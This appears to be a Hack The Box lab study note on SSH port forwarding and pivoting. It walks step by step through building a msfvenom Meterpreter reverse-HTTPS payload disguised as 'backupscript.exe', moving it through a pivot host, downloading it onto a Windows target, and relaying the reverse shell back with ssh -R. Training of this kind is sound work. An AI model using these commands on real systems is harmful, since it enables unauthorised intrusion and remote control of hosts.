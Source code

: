 ```yaml
---
title: Reverse Port Forwarding w SSH
draft: false
tags:
  - reverse-port-forwarding
---
```

**Local Port Forwarding** is where SSH can listen on our local host and forward a service on the remote host to our port:

```shell-session
ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64
```


**Dynamic Port Forwarding** is where we send packets to remote network via pivot host:

```shell-session
ssh -D 9050 ubuntu@10.129.202.64
```

```shell-session
jadu101@htb[/htb]$ tail -4 /etc/proxychains.conf

# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```

```shell-session
proxychains nmap -v -Pn -sT 172.16.5.19
```

Sometimes we might want to forward local service to the remote port as well and we need **Reverse Port Forwarding** for this. 

## Setup

Attack Host(10.10.15.5) -> Ubuntu Server(10.129.15.50,172.16.5.129) -> Windows Server(172.16.5.19)

In this case, it would be impossible to get a reverse shell from Windows Server to Attack host since Windows server doesn't know how to route traffic leaving it's network. 

We have make Ubuntu server the pivot host to spawn a reverse shell. 

1. Create msfvenom payload with receiver set as Ubuntu Server(172.16.5.129)
2. Ubuntu port 8080 forwards all reverse packets to attacker's port 8000.


## Create Payload

We will create a payload using msfvenom with receiver set as the pivot host and listening port as 8080:

```shell-session
jadu101@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 712 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

## Transfer Payload to PivotHost

We will now transfer the payload to the pivot host(ubuntu server)

```shell-session
jadu101@htb[/htb]$ scp backupscript.exe ubuntu@<ipAddressofTarget>:~/

backupscript.exe   
```

## Transfer Payload to Target

Now let's transfer payload from PivotHost to Target machine(windows).


Python web server on PivotHost:

```shell-session
ubuntu@Webserver$ python3 -m http.server 8123
```

We will download the payload to the target:

```powershell-session
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

## Forwarding

We now have our payload on the Windows host. 

Let's use SSH remote port forwarding to forward connections from the Ubuntu server's port 8080 to our listener on port 8000.

```shell-session
jadu101@htb[/htb]$ ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

`-R` command asks the Ubuntu server to listen on port 8080 and forward all incoming connection to the attacker's port 8000. 

On metasploit, we now have the connection made once the payload runs:


```shell-session
[*] Started HTTPS reverse handler on https://0.0.0.0:8000
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (127.0.0.1:8000 -> 127.0.0.1 ) at 2022-03-02 10:48:10 -0500

meterpreter > shell
Process 3236 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>
```

Below is the summary:

- Create payload for PivotHost-Target
- Transfer the payload to target
- SSH forward traffic to attacker listener port
- Run the payload on the target
- Shell

